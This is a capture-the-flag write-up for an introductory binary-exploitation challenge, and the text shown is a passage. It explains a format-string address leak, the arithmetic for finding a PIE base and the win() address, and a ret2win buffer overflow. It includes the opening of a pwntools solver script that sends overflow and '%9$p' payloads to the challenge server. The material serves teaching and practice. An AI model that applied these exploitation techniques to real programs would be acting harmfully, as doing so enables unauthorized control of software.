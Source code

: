 ```Leaked Address - Base Address = Offset```
| **h**  | short int  | unsigned short int  |   |   |   |   | short int*  |
| **l**  | long int  | unsigned long int  |   | wint_t  | wchar_t*  |   | long int*  |
| **ll**  | long long int  | unsigned long long int  |   |   |   |   | long long int*  |
| **j**  | intmax_t  | uintmax_t  |   |   |   |   | intmax_t*  |
| **z**  | size_t  | size_t  |   |   |   |   | size_t*  |
| **t**  | ptrdiff_t  | ptrdiff_t  |   |   |   |   | ptrdiff_t  |
| **L**  |   |   | long double  |   |   |   |   |


### Stage 3

![](Images/beginStage3.png)

With Stage 3 we are given an offset address of a ```win()``` function and prompted to calculate the PIE address of this function. Much of the time we only have an offset available to us so leaking an address, calculating the base and then calculating ```Base Address + Function Offset = PIE Address of Function``` is necessary.

We are given the offset of ```0x2139``` in this stage so we need to take the Base Address from the previous stage to calculate the PIE Address of ```win()```.

```0x55fc3f100000 + 0x2139 = 0x55fc3f102139```


### Stage 4

![](Images/beginStage4.png)

Coming into the end we put it all together and exploit a Ret2Win vulnerability. This vulnerability is where you are able to overflow the buffer, the ```$RBP``` register, and overwrite the ```$RIP``` register. The ```$RIP``` register is where the program flow will go once the current section of code reaches the ```ret``` instruction. With this vulnerability you can essentially redirect execution flow elsewhere.  


**pwnSchoolSolver.py**
```.py
from pwn import *

p = remote("spaceheroes-pwnschool.chals.io", 443, ssl=True, sni="spaceheroes-pwnschool.chals.io")

# Stage1: Overflow
p.recvuntil(b">>> ")
p.sendline(b"1")            
p.recvuntil(b">>> ")
p.sendline(b"a"*(16+1))     


# Stage2: Leak 
p.recvuntil(b">>> ")
p.sendline(b"2")     
p.recvuntil(b">>> ")    
p.sendline(b"%9$p")
p.recvuntil(b" 0x1380 = ")
programBase = p.recvline()[0:-1]
programBase = programBase.decode("utf-8")
programBase = int(programBase, 0)


# Stage3: Calculate PIE Address
p.recvuntil(b">>> ")
p.sendline(b"3")
winOffset = 0x2139
```